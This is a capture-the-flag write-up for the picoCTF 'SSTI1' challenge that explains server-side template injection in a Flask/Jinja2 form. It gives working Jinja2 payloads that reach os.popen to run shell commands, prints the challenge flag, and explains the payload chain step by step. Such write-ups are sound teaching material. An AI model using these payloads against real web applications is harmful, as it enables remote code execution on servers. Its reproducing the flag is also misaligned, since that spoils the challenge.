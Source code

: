 # SSTI1
# Author: Venax


## 📂 Category
- Web Exploitation  
- Difficulty: Easy  

---

## 🧩 Challenge Description
The challenge provided a simple web form that reflected user input. 

---

## 🔍 Initial Observations
- Entering expressions like `{{7*7}}` returned `49`, indicating possible Server-Side Template Injection (SSTI).
---

## 🧪 Exploitation Steps

1. Entered: ```{{7*7}}``` → Response was `49` → Confirmed SSTI.
2. Tried: ```{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}```
3. Got a system-level response confirming Remote Code Execution (RCE).
4. Ran: ```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```
5. Server files listed.
6. Finally: ```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}```
7. Revealed the flag.

---

## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

---

## 🧠 What I Learned

**What is a Template Engine?**

A template engine helps generate dynamic web pages. Instead of hardcoding values, you write placeholders like:

```<p>Hello, {{ name }}!</p>```

The server fills in the actual data.

In this challenge, the web page uses Jinja2, the default template engine for Python's Flask framework, to make the page dynamic. Different frameworks use different engines and syntax. For example, if the site was built with Django, an expression like ```{{7}}``` might be enough to test for evaluation.

**What is SSTI?**

Server-Side Template Injection occurs when user input is unsafely inserted into a template. If an input like ```{{7*7}}``` returns 49 (7 times 7 = 49), the server is evaluating user input as code.

**Note:** 7\*7 is just a common convention—it could be any expression.

If unpatched, SSTI can lead to:
- Data leaks
- Remote code execution (RCE)
- Full server compromise

**Code explanation**

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

- ```request```	: A Flask object representing the current HTTP request.
- ```request.application``` : The Flask application instance being used.
- ```__globals__```: Accesses the global variables of the template’s underlying Python environment.
- ```__builtins__``` : Exposes all built-in Python functions and objects (like open, print, __import__, etc.).
- ```__import__('os')``` : Dynamically imports the os module — a powerful module for interacting with the system.
- ```.popen('id')``` : Runs the shell command id, which returns the current user and group info. Can replace with other commands (eg: ls, cat, etc)
- ```.read()``` : Reads and returns the output of that command.

---

## 📚 References

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
